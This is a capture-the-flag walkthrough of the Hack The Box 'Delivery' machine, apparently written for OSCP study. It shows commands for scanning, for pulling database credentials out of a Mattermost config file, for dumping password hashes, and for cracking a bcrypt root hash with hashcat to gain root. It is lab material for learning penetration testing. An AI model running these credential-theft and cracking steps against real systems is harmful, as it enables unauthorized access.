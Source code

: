 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔎 Recon
```bash
nmap -sV -p- -T4 -oA nmap/delivery-all 10.10.10.222
```
- Open ports: 22 (SSH), 80 (HTTP), 8065 (unknown service initially)
- `/etc/hosts` additions:
  ```
  10.10.10.222 delivery.htb helpdesk.delivery.htb
  ```

---

## 🏠 Web Enumeration
- **[Port 80](HTTP.md):** Static homepage
- **Subdomain found:** helpdesk.delivery.htb
- **Port 8065:** Mattermost interface at `http://delivery.htb:8065/`

### Helpdesk Ticket System
- Created new ticket on `helpdesk.delivery.htb`
  - Email: `test1@delivery.htb`
  - Ticket ID: `4076334`
- Used this info to access Mattermost:
  - Signup using `4076334@delivery.htb`
  - Got email verification link via helpdesk panel

---

## 🔑 Credentials & User Shell
- From Mattermost `town-square` channel:
  ```
  maildeliverer : Youve_G0t_Mail!
  ```
- SSH as maildeliverer:
  ```bash
  ssh maildeliverer@10.10.10.222
  # Password: Youve_G0t_Mail!
  ```
- Captured user flag from `~/user.txt`

---

## ⬆️ Privilege Escalation
### Step 1: Find Credentials
- File: `/opt/mattermost/config/config.json`
```json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost",
```
- Credentials: `mmuser : Crack_The_MM_Admin_PW`

### Step 2: Dump Users Table
```bash
mysql -h 127.0.0.1 -u mmuser -p
# Password: Crack_The_MM_Admin_PW
MariaDB> use mattermost;
MariaDB> SELECT Username,Password FROM Users;
```
- Found bcrypt hash for `root`

### Step 3: Crack Bcrypt Hash
- Hint from Mattermost: `PleaseSubscribe!` related password
- Custom wordlist generation:
```bash
echo 'PleaseSubscribe!' > pass.lst
hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
```
- Crack hash:
```bash
hashcat -m 3200 -a 0 -o cracked.txt <HASH> custom.lst
```
- Cracked password: `PleaseSubscribe!21`

### Step 4: Root Access
```bash
su root
# Password: PleaseSubscribe!21
```
- Captured root flag from `~/root.txt`

---

## 📄 Summary
- Enumerated support ticket system to gain Mattermost access
- Extracted SSH credentials from chat
- Used MySQL access to retrieve root hash
- Cracked bcrypt hash using rules
- Escalated to root and captured all flags

---

Let me know if you'd like this exported as PDF or visualized as a flow diagram! 🔐

